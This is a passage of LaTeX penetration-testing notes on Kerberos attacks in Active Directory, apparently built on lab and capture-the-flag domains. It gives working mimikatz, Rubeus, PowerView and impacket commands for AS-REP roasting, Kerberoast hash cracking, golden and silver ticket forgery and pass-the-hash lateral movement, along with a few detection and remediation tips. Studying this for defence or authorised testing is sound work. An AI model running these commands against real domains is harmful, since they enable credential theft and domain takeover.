Use group managed service accounts~\ref{windows_knowledge:ad:security:gMSA}

To detect this attack, your only  native option is to monitor for event ID
4769, and look for a Ticket  Encryption Type of 0x17 - user to user
\verb+krb_tgt_reply+. You can find more  information on detecting Kerberoast attacks here.

\url{https://www.trustedsec.com/blog/art_of_kerberoast/}

\url{https://www.youtube.com/watch?v=PUyhlN-E5MU}

Some services are better than the other since due to performance they will not
check PAC signature against Kerberos. 

MSSQL is a good candidate and grant code execution on the target SQL server
(\verb+xp_cmdshell+)

try not to request all TGC since it will raise alarms.

Identify weak passwords SPNs 

\subsection{ASREPRoasting}
\label{kerberos:asrepraosting}
\emph{AS-REProasting} is an offensive  technique against Kerberos that allows
password hashes to be retrieved  for users that do not
\href{https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory}{require
pre-authentication}. In such a case an attacker can  recover a Kerberos
\verb+AS-REP+ encrypted with the users RC4-HMAC’d password  and he can attempt to crack this ticket offline.

Pre-authentication is the initial stage  in Kerberos authentication, which is
managed by the KDC Authentication  server and is meant to prevent brute-force
attacks.

\verb+GenericWrite+ or \verb+GenericAll+ permissions over an account, they can
enable this attribute and obtain the AS-REP ticket for offline cracking to
recover the account's password before disabling the attribute again. Like
Kerberoasting, the success of this attack depends on the account having a
relatively weak password.

\begin{verbatim}
Set-DomainObject -Identity SAMAN -XOR @{useraccountcontrol=4194304} -Verbose
\end{verbatim}

\subsubsection{Enumeration of the users}
\begin{itemize}
    \item 
        \verb+Get-ADUser+~\ref{tool:wlol:ad:get-ADUser} 
    \item 
        \verb+Get-DomainUser+~\ref{tool:powerview} with \verb+-PreauthNotRequired+
    \item 
        \verb+Rubeus asreproast /format:hashcat+ or \verb+Rubeus.exe preauthscan /users:uns.txt /domain:semperis.lab /dc:192.168.71.220+
    \item
        Powerview~\ref{tool:powerview}: \verb+Get-DomainUser -UACFilter DONT_REQ_PREAUTH+
    \item 
        kerbrute~\ref{tool:kerbrute:user-enum} flag such account during user enumeration.
    \item 
        cme~\ref{tool:crackmapexec:smb:asreproast}
    \item 
        or GetNPUsers.py~\ref{tool:impacket:GetNPUsers} from impacket
\end{itemize}

\subsubsection{Getting hashes On windows}

rubeus~\ref{tool:rubeus:asreproast}

\subsubsection{Getting hashes On linux}

metasploit: 
\begin{verbatim}
      upload /root/ASREPROAST.ps1 .
      powershell
      Import-Module .\ASREPRoast.ps1
      Invoke-ASREPRoast
\end{verbatim}


impacket~\ref{tool:impacket:GetNPUSers}:

\begin{verbatim}
GetNPUsers.py egotistical-bank.local/fsmith -request -no-pass -dc-ip 10.10.10.175
\end{verbatim}


\subsubsection{Set DONT\_REQ\_PREAUTH}

Powerview:
\begin{verbatim}
Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose
\end{verbatim}


\subsection{Golden Ticket Attack}
\label{kerberos:golden-ticket}
\url{https://en.hackndo.com/kerberos-silver-golden-tickets/}
\url{https://www.hackingarticles.in/domain-persistence-golden-ticket-attack/}

A \href{https://attack.mitre.org/techniques/T1558/001/}{golden  ticket} is a forged Kerberos key distribution center. You can create  usable Kerberos tickets for accounts that do not exist in the Active  Directory. 
To obtain a Golden ticket, an attacker needs  domain/local administrator access on Active Directory forest or domain –  and once the ticket is created, it is good for 10 years by default!
If  you believe that someone created an unauthorized golden ticket, you  would need to reset the Kerberos service account, krbtgt. While this  isn't difficult, there are several critical steps to the process. 
Because  Active Directory stores the old and current passwords for all accounts,  you must reset the krbtgt account twice. But the second reset should  occur only after waiting the maximum user ticket lifetime after the first password reset. Microsoft provides a handy script to assist with this here.


\subsection{Silver Ticket Attack}
\url{https://en.hackndo.com/kerberos-silver-golden-tickets/}

Silver tickets are forged TGS. A silver ticket is similar to a Golden Ticket,
but does not have the broad administrative privileges of the golden ticket. 

An attacker would typically only gain access to a single service on an
application, and an attacker must have compromised legitimate user  credentials
.

What  makes these attacks very difficult to detect is that forging a silver
ticket (for example using the service account password hash) does not  require
any communication with a DC.

\url{https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#kerberoast}

Whatever the circumstances, once an attacker has a foothold on a  single
network system, they can start laying the groundwork for forging a  Kerberos
Silver Ticket. This involves:
\begin{enumerate}
        \item Conduct reconnaissance to gather information about the domain,
            such as the domain name and domain security identifier (SID), both
            of which are relatively easily obtained by a whoami command on
            Windows.
        \item Obtain the DNS name under which the service principal name (SPN)
            for the targeted, local service they wish to attack is registered
            as well as the service type.
        \item Use Mimikatz~\ref{tool:mimikatz} or a similar
            tool to obtain the local NTLM passworda
            (or password hash) for the Kerberos service running on the
            compromised system, for example: Windows file share, SQL, email,
            Microsoft Sharepoint and so on. Service password hashes can be
            obtained from a number of sources on a compromised local system.
            For example, they can be dumped from the local computer’s Security
            Account Manager (SAM) or local service account.
        \item Obtain the unencrypted password for the service. These can be
            obtained from the hash using methods like offline cracking
            (“Kerberoasting”) to obtain the unencrypted password data.
        \item Use Mimikatz, ticketer~\ref{tool:impacket:tickerter} from
            impacket  or a similar tool to forge a Kerberos Ticket
            Granting Service (TGS) ticket allowing the attacker to authenticate
            to the targeted service.
        \item Authenticate to the local service directly using the credentials
            and forged TGS.
        \item Manipulate the TGS to elevate the attacker’s permissions to that
            of Domain Administrator.
\end{enumerate}


\subsection{Windows}

\begin{verbatim}
> Import-Module .\PowerView.ps1 ; Get-DomainSID
> mimikatz.exe "kerberos::golden /domain:inlanefreight.local 
    /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 
    /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local 
    /service:cifs  /ptt" exit

# NOTE TO PSEXEC 
# EXPORT THE TICKET 
# CREATE A SACRIFICIAL PROCESS AND IMPORT THE TICKET
\end{verbatim}


\subsubsection{Workflow on Linux}

\begin{itemize}
    \item set hosts:
\begin{verbatim}
echo 10.129.205.36 dc1 dc1.scrm.local scrm.local | sudo tee -a /etc/hosts
\end{verbatim}

    \item get domain SID:
\begin{verbatim}
lookupsid.py scrm.local/ksimpson:ksimpson@dc01.scrm.local -domain-sids
\end{verbatim}
        
    \item find a service:
\begin{verbatim}
GetUserSPNs.py scrm.local/ksimpson:ksimpson -k  -dc-ip dc1.scrm.local
\end{verbatim}

    \item Get it's info
\begin{verbatim}
$ GetUserSPNs.py scrm.local/ksimpson:ksimpson  -k  \
    -request-user sqlsvc  -outputfile sqlsvc.hash  \
    -dc-ip dc1.scrm.local
\end{verbatim}

    \item crack the password
\begin{verbatim}
$ john --wordlist=/usr/share/wordlists/passwords/rockyou.txt sqlsvc.hash
$ john --show sqlsvc.hash
\end{verbatim}
    \item Generate the NT hash from the password using for exemple
        \href{https://codebeautify.org/ntlm-hash-generator}{NTLM Hash
        Generator} (\verb+B999A16500B87D17EC7F2E2A68778F05+)
    \item Get domain SID using \verb+getPAC.py+
\begin{verbatim}
$ getPac.py -targetUser ksimpson scrm.local/ksimpson:ksimpson 
.. .
.. .
Domain SID: S-1-5-21-2743207045-1827831105-2542523200
\end{verbatim}   
    \item Identify the SID to impersonate using
        \href{https://morgantechspace.com/2013/10/difference-between-rid-and-sid-in.html}{Well
        Known SIDs} let say Administrator (500)
    \item Create the ticket
\begin{verbatim}
$ ticketer.py -nthash B999A16500B87D17EC7F2E2A68778F05 \
    -domain-sid S-1-5-21-2743207045-1827831105-2542523200 \
    -domain scrm.local \
    -spn MSSQLSvc/scrm.local \
    -user-id 500 Administrator
\end{verbatim}
\end{itemize}






\section{Backdoor skeleton key malware attack}
\url{https://www.hackingarticles.in/domain-controller-backdoor-skeleton-key}



In  a backdoor skeleton key malware attack, the attacker typically has  compromised the Domain Controller and executed a successful Golden  Ticket attack. 
The malware injects into LSASS a master password  that would work against any account in the domain. When the account  authenticates, the malware will check the injected master password hash,  and if it's a match will authenticate the user, regardless of the  user's true password. Legitimate users will still be able to log in with  their normal credentials.

\subsection{OverPass the Hash / Pass the Key}
\href{https://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash}{Overpass-the-hash
par Gentil Kiwi in french}

\href{https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18}{Abusing
Microsoft Kerberos - Sorry you guys don't get it}

This attack aims to use the user NTLM hash or AES keys to request Kerberos
tickets, as an alternative to the common Pass The Hash over NTLM protocol.
Therefore, this could be especially useful in networks where NTLM protocol is
disabled and only Kerberos is allowed as authentication protocol.

In order to perform this attack, the NTLM hash (or password) of the target user
account is needed. Thus, once a user hash is obtained, a TGT can be requested
for that account. Finally, it is possible to access any service or machine
where the user account has permissions.


\subsubsection{From Windows}






\subsubsection{From Linux}

\begin{verbatim}
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
\end{verbatim}


\section{Lateral mouvement}

\subsection{Pass the ticket}
\label{network:kerberos:ptt}
In  this attack, the threat actor creates a fake session key by forging a  fake
TGT. The attacker will present this to the service as a valid  credential.

In order to execute this attack, the attacker must obtain access to the
session key. To perform this attack, an attacker  would obtain Kerberos tickets
from the memory of the LSASS process, and  then inject the stolen TGT into
their own session, which will let them  adopt the identity and privileges of
the stolen TGT.




\url{https://www.hackingarticles.in/lateral-movement-pass-the-ticket-attack/}

\url{https://www.hackingarticles.in/kerberoasting-and-pass-the-ticket-attack-using-linux/}

\url{https://www.hackingarticles.in/lateral-movement-pass-the-ccache/}

\subsubsection{From Windows}

ticket are exported using either mimikatz or rubeus

\subsubsection{From Linux}





\section{Replay attack}
A  replay attack occurs if an attacker steals the packet sent from the  user to the service, which they can then use to gain access to the  service without knowing the user's credentials. 
This is generally  low risk and is mitigated by the system checking the timestamp of the  packet - any timestamp earlier or the same as a previous packet is  rejected, as well as any timestamp out of sync with the server time by  over 5 minutes.


\section{Relay attack}

\begin{itemize}
    \item 
        \href{https://github.com/cube0x0/KrbRelay}{krbrelay} \href{https://github.com/ShorSec/KrbRelayUp}{krbrelayup}
    \item 
        \href{https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html}{Using Kerberos for Authentication Relay Attacks}
    \item 
        \href{https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/}{Relaying Kerberos over DNS using krbrelayx and mitm6 }
\end{itemize}





